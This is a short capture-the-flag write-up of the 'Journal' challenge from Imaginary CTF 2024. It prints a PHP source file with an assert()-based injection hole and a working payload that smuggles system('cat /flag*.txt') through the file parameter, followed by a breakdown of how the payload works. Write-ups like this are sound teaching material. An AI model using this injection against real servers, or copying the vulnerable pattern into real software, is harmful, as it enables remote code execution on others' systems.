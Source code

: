 ```yaml
---
title: Journal - Imaginary CTF 2024
---
```


﷽

*This is my first ctf challenge writeup.*

# PHP Source Code

```php
<?php

echo "<p>Welcome to my journal app!</p>";
echo "<p><a href=/?file=file1.txt>file1.txt</a></p>";
echo "<p><a href=/?file=file2.txt>file2.txt</a></p>";
echo "<p><a href=/?file=file3.txt>file3.txt</a></p>";
echo "<p><a href=/?file=file4.txt>file4.txt</a></p>";
echo "<p><a href=/?file=file5.txt>file5.txt</a></p>";
echo "<p>";

if (isset($_GET['file'])) {
  $file = $_GET['file'];
  $filepath = './files/' . $file;

  assert("strpos('$file', '..') === false") or die("Invalid file!");

  if (file_exists($filepath)) {
    include($filepath);
  } else {
    echo 'File not found!';
  }
}

echo "</p>";
```

This was the source code of the php server. I do not know php I could not see the obvious vulnerability.

I intially tried accessing the flag without using `..`. On hacktricks I found few ways but none of them worked.

# The RCE

Then it clicked to me how assert is taking the code as a string and executing it and the file name is being passed to it.
Googling this, I found that hacktricks has [the same code as example](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-via-phps-assert) but their payload was not working for me. So I tried to make my own payload.

```php
', '1')or die(system('cat /flag*.txt'))or strpos('
```

# Break Down

- `', '1')` is to close the string and strpos function.
- `or die(system('cat /flag*.txt'))` is to execute the command and print the output. `or` is used because `strpos` returns false adn tehn `or` short circuits to execute the next command `die`.
- `or strpos('` is to prevent the (syntax iirc) error from being thrown by.

After the format string being filled the code inside the `assert` function looks like this:

```php
strpos('', '1')or die(system('cat /flag*.txt'))or strpos('e', '..') === false
```

**Thanks to the organizers for the challenge I really enjoyed the ctf for the few hours I played and loved this challenge.**

